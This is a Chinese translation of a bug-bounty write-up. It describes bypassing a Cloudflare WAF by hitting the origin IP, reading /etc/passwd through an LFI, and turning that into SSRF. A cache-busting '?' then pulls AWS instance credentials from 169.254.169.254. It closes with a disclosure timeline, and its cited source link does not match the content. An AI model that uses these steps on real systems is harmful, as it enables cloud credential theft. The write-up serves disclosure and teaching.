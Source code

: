 > 原文链接: https://www.anquanke.com//post/id/177318 


# 如何获得印度最大股票经纪公司的AWS凭证


                                阅读量   
                                **246380**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/dm/1024_538_/t0149d7bb804b2d6e8a.png)](https://p1.ssl.qhimg.com/dm/1024_538_/t0149d7bb804b2d6e8a.png)



大家好，这篇文章我将讲述如何绕过一系列阻碍最终获得印度最大股票经纪公司的AWS（即Amazon Web Services，是亚马逊公司的云计算IaaS和PaaS平台服务）的访问凭证。简单来说，我需要先绕过WAF，然后再破解Web的缓存机制，最后获得AWS账户凭据。

> 请注意，我的一系列操作都是在相关公司的许可下完成的

在渗透测试的第一阶段，我发现一些网站的端点存在文件交互，所以我测试了一下LFI（本地文件包含）漏洞，结果发现CloudFlare防火墙挡在我的前面。

[![](https://nosec.org/avatar/uploads/attach/image/f27588748a8e79314d87a83129bc9b03/33.png)](https://nosec.org/avatar/uploads/attach/image/f27588748a8e79314d87a83129bc9b03/33.png)

要绕过CloudFlare的WAF，最简单的方法之一就是找到真实IP，绕过WAF直接访问，希望他们的服务器没有设置访问IP的白名单。

[![](https://nosec.org/avatar/uploads/attach/image/e872b4be40f3b62c5909645c604f3aa0/44.png)](https://nosec.org/avatar/uploads/attach/image/e872b4be40f3b62c5909645c604f3aa0/44.png)

为了找到服务器的真实IP，我直接使用了命令`dig [www.readacted.com](http://www.readacted.com)`，结果很幸运直接得到了结果。

[![](https://nosec.org/avatar/uploads/attach/image/e4fc63a46d7b3ed18b5d073739eb8ee5/55.png)](https://nosec.org/avatar/uploads/attach/image/e4fc63a46d7b3ed18b5d073739eb8ee5/55.png)

然后只需在电脑的`hosts`文件中配置一下网站和IP的对应关系，即可绕过WAF。接着我尝试使用LFI读取`/etc/passwd`，得到的响应如下：

[![](https://nosec.org/avatar/uploads/attach/image/88920606cf3a6c21b85c0f7b4710091f/66.png)](https://nosec.org/avatar/uploads/attach/image/88920606cf3a6c21b85c0f7b4710091f/66.png)

OK，这是一个很明显的本地文件读取漏洞。而当我搜索这个真实IP的whois信息时，发现它属于AWS。于是，我的下一个目标是通过利用SSRF漏洞读取AWS的帐户凭据，因为我在这个LFI漏洞点看到过URL作为参数输入的情况。我调用了API尝试读取AWS实例的元数据（[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)）。

[![](https://nosec.org/avatar/uploads/attach/image/abf35b64421ef564346453a86c7f9271/77.png)](https://nosec.org/avatar/uploads/attach/image/abf35b64421ef564346453a86c7f9271/77.png)

```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 06 Apr 2019 14:32:48 GMT
Content-Type: text/css;charset=UTF-8
Connection: close
Vary: Accept-Encoding
Strict-Transport-Security: max-age=15552000
X-frame-Options: DENY
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Proxy-Cache: HIT
Content-Length: 0
```

但是，响应码虽然是200——这意味着确实有交互——但没有返回任何数据。为什么会这样？如果你看一下上面的响应头，你会发现服务器是`Nginx`，而响应头有一个`X-Proxy-Cache`，它代表Nginx缓存层的设置，其值为“HIT”，意味着当客户端试图访问AWS元数据的相关API时，服务器会首先在Nginx缓存层中寻找响应，而这个响应为空。

现在，为了从服务器获得真实的响应，我不得不绕过缓存层，首先我需要了解nginx缓存系统中URL缓存规则。

```
一些参考文献 - 
https://www.digitalocean.com/community/tutorials/how-to-implement-browser-caching-with-nginx-s-header-module-on-centos-7
https://www.howtoforge.com/make-browsers-cache-static-files-on-nginx
```

在经过一段时间的学习后，我所了解到的是，缓存一般来说是基于URL路由路径的，如果URL是`[https://somewebsite.com/a.html](https://somewebsite.com/a.html)`那么它很可能与缓存中的URL路由路径相匹配，那么它就会被导向缓存，但如果网址是`[https://somewebsite.com/a.html?](https://somewebsite.com/a.html?)`那么URL路由路径将不会与缓存中的URL路由路径相匹配，因此它将直接从服务器获得响应。简单来说，我只需要在原来的请求后面加上一个问号或其他特殊符号`[http://169.254.169.254/latest/meta-data?](http://169.254.169.254/latest/meta-data?)`，即可不匹配缓存中的URL路由路径，就会直接访问服务器，得到即时回应。以下是我得到的响应：

[![](https://nosec.org/avatar/uploads/attach/image/d27adc5c4e57c9dece4d6ada60a45975/88.png)](https://nosec.org/avatar/uploads/attach/image/d27adc5c4e57c9dece4d6ada60a45975/88.png)

```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 06 Apr 2019 14:32:48 GMT
Content-Type: text/css;charset=UTF-8
Connection: close
Vary: Accept-Encoding
Strict-Transport-Security: max-age=15552000
X-frame-Options: DENY
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Proxy-Cache: MISS
Content-Length: 315

ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hostname
identity-credentials/
instance-action
instance-id
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
product-codes
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/
```

此时你可以看到响应头`X-Proxy-Cache`被设置为`MISS`，这意味着现在API调用绕过了缓存层，直接从服务器获取响应。

此时，我能够成功绕过缓存来利用SSRF。为了获得AWS帐户凭证，我调用了如下API读取AWS实例的元数据中的安全性凭证（AWS instance me tadata security credentials），使用的URL为：`[http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance?](http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance?)`。

正如我所预料的，访问成功：

[![](https://nosec.org/avatar/uploads/attach/image/0b02eb34e6382090e69f57168ad00bf1/99.png)](https://nosec.org/avatar/uploads/attach/image/0b02eb34e6382090e69f57168ad00bf1/99.png)

我获得了AWS访问ID，秘密访问密钥和令牌，我可以进入网站的AWS账户，获取敏感信息，进行下一步渗透。总结一下，我首先绕过了Cloudflare防火墙，找到了LFI漏洞，然后绕过Web缓存机制将其升级到SSRF漏洞，最后利用SSRF漏洞获得了AWS帐户凭据。



## 时间线

2019年4月6日 – 漏洞报告给有关公司。

2019年4月7日 – 漏洞已被修复。

2019年4月7日 – 重新测试并确认修复。

2019年4月9日 – 发放奖励。

谢谢你的阅读！

```
本文由白帽汇整理并翻译，不代表白帽汇任何观点和立场：https://nosec.org/home/detail/2521.html
来源：https://www.nccgroup.trust/us/our-research/private-key-extraction-qualcomm-keystore/
```
